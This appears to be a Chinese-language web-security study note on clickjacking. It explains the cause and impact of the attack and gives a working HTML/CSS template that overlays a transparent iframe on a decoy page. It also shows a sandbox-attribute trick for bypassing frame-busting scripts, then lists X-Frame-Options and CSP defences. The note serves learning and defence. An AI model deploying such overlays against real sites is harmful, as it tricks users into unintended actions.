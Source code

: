 # Clickjacking
## 成因
* 基於界面的攻擊，使用者在不知情的情況，點擊了隱藏的按鈕或連結。
* 與 CSRF 不同在於，CSRF 不需要使用者進行操作。
## 影響
* 使用者在不知情的情況，進行不安全的操作。
## 攻擊方法
### 建構基本攻擊網站
* iframe 設定透明度與 z-index
* [burp clickbandit tool](https://portswigger.net/burp/documentation/desktop/tools/clickbandit)
```
<head>
	<style>
		#target_website {
			position:relative;
			width:128px;
			height:128px;
			opacity:0.00001;
			z-index:2; // front
			}
		#decoy_website {
			position:absolute;
			width:300px;
			height:400px;
			z-index:1; // back
			}
	</style>
</head>
...
<body>
	<div id="decoy_website">
	...decoy web content here...
	</div>
	<iframe id="target_website" src="https://vulnerable-website.com">
	</iframe>
</body>
```
### 繞過 Frame busting
* 開發者可以使用 JS `if (top !== self)` 來確定網站是否是 iframe。
* 我們可以藉由 iframe 中 `sandbox` 屬性，來限制執行 JS，來繞過 `if (top !== self)` 檢查。
    * allow-forms: 允許傳送表單
    *  allow-scripts: 允許 JS
```
<iframe sandbox="allow-forms" src="..."></iframe>
```
## 防禦方法
### X-Frame-Options
* 禁止 iframe 嵌入
```
X-Frame-Options: deny
```
* 僅可在相同網域
```
X-Frame-Options: sameorigin
```
* 僅可在指定網站
```
X-Frame-Options: allow-from https://normal-website.com
```
### Content Security Policy (CSP)
* 禁止 iframe 嵌入
```
Content-Security-Policy: frame-ancestors 'none'
```
* 僅可在相同網域
```
Content-Security-Policy: frame-ancestors 'self'
```
* 僅可在指定網站
```
Content-Security-Policy: frame-ancestors https://normal-website.com
```
---
###### tags: `web security`